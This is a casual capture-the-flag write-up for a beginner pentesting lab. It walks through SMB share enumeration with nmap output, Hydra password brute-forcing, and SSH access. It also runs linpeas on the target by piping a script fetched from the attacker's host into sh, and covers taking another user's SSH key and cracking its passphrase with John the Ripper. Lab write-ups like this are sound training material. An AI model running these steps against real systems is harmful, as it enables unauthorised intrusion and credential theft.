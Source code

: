 # Basic Pentesting

- In these set of tasks you'll learn the following:

    1. brute forcing 
    2. hash cracking 
    3. service enumeration
    4. Linux Enumeration
    

```
export IP=10.10.27.13
```

- I deployed the machine and then and then i wielded my magic wand like grand wizard.(did nmap scan...LOL!). Man all the servers running on the ports are foreign to me. Like i have to go research every single one of them.

- Lots of services run on the machine but the one that locked eyes with me is the smb shares running on the machine. Lemme just connect and see how it goes. This is the first time I am dealing with smb shares.
Looking around the interwebz for something to exploit on the smb share i found this wonderful command 
```
nmap -sV --script=smb-enum-shares -p445 $IP

PORT    STATE SERVICE     VERSION
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                                               
Service Info: Host: BASIC2

Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.10.154.135\Anonymous:
|     Type: STYPE_DISKTREE
|     Comment:
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\samba\anonymous
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.154.135\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (Samba Server 4.3.11-Ubuntu)
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|_    Current user access: READ/WRITE

```

- I did the directory scans and found some directory `/development` with some coversations in it. It gives some clues about insecure passwords or something like that.
So now its only left with what i'm going to do. Something tells me i have to do some password bruteforce or something close to that.
I connected to the smb share on the machine and then looked around, i found some other message meant for all the users of the shares. I got the message and got the username of the users on the server.

- I am having touble using hydra, I dont even know how it works in the first place.
i found the password for one of the users using hydra bruteforcing tool and the password is `armando`


- I sshed into the system, spun a simple `python2 -m SimpleHTTPServer 9999` in the directory i have `linpeas.sh` at. Went into the remote server and executed `curl <my-ip-addr>:<port>/linpeas.sh | sh`
This shit run smoothly and run linpeas on the server. Man, i have the id_rsa of the other user too. Bingo lets go and escalate this MF!. but first lemme go google how to copy text in a tmux session.

- okay the id_rsa file has a passpharase or something creepy prevent me from using it hahaha :).
JohnTheRipper to the rescue. LOL!
